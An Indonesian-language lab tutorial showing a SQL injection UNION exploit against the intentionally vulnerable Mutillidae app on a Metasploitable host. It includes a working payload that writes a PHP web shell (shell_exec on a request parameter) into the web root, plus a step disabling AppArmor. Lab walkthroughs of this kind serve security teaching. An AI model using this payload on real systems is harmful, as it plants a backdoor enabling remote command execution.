 ## Lesson 10 - SQL Injection Union Exploit \#3

### \# Inject Backdoor di halaman User Info

* **Step 1** : Buka `http://10.151.36.64/mutillidae/` lalu masuk ke halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Matikan AppArmor pada Metasploitable OS dengan `sudo /etc/init.d/apparmor stop`
AppArmor dalam OS turunan Ubuntu berfungsi untuk membatasi resource dari aktivitas-aktivitas sistem. Hal ini agar MySQL memiliki akses read/write di directori web app.

* **Step 4** : Membuat Backdoor dengan SQL Union Injection dengan memasukan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/mutillidae/execute_command.php' -- 
```
Dan jangan lupa untuk menambahkan 1 spasi diakhir, `"-- "`.